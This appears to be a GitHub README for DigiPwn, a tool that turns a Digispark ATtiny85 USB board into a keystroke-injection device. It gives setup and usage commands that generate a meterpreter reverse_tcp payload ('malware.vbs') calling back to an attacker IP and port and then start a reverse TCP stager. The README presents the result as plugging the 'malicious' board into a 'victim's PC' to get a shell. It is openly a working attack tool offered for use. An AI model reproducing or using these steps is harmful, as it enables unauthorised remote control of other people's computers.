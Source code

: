 # ![Image of DigiPwn Logo](https://i.imgur.com/mDVQ4Jw.png)
# DigiPwn
Digispark KickStarter ATtiny85 USB Development Board The ATtiny85 based mini development board is similar to the Arduino, 
but cheaper and smaller (of course a bit less powerful). With a whole host of shields to extend its functionality and the 
ability to use the familiar Arduino IDE, this board is a great way to jump into microcontroller electronics.

# Requirements
 - [Python 2.7](https://www.python.org/downloads/)
 - [Arduino](https://www.arduino.cc/en/Main/Software)
 - Setup DigiSpark board in Arduino. [Click here for how-to.](https://digistump.com/wiki/digispark/tutorials/connecting).
 - Requires module [impacket](https://github.com/SecureAuthCorp/impacket).
# Installation 
 - First clone the repo
  `git clone https://github.com/zer0overflow/DigiPwn.git`
 - Then run `python DigiPwn.py [HOST] [PORT] [PAYLOAD] [OUTPUT FILE] [FORMAT]`
   
   Example: `python DigiPwn.py 192.168.1.2 8080 windows/meterpreter/reverse_tcp malware.vbs vbs`
   
 - A file named `keystroke_inject.ino` will be created. Upload that code using Arduino.
 
 - The program will ask you if you want to start a reverse tcp stager. Press y and then enter to start one.
 
 - Plug the malcious DigiSpark to victim's PC and **BOOM! You've a shell!**

 Follow me on Instagram
 
 [https://www.instagram.com/zero.overflow](https://www.instagram.com/zero.overflow)
 [My website](https://zer0overflow.github.io/)
